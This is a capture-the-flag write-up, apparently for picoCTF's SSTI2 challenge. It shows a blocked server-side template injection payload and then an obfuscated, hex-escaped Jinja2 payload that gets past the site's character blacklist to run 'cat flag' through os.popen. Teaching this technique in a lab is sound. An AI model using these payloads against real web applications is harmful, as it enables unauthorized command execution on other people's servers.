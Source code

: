 # Description
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.
# Solution

-  This challenge is a continuation of the challenge [SSTI1](picoCTF/primerExamenParcial/SSTI1.md) and like this challenge I'll be using  [Server Side Template Injection](https://www.geeksforgeeks.org/what-is-server-side-template-injection/)  after trying to use the same command that I use in the previous challenge I don't get the waited output since now it use a blacklist to delete some characters.

``` bash 
# Input for the message field 
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
# Output 
Stop trying to break me >:(
```

- Since I couldn't  successfully exec commands in the server I try to obfuscate the previous input and now it overpass the blacklist of the filter and I get the flag.

```bash
# Input for the message field 
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
# Output 
picoCTF{sst1_f1lt3r_byp4ss_96a02202}
```

# References
- [PicoCTF 2025 — SSTI2](https://medium.com/@kheyraldhs12/picoctf-2025-ssti2-a047c0c5887a)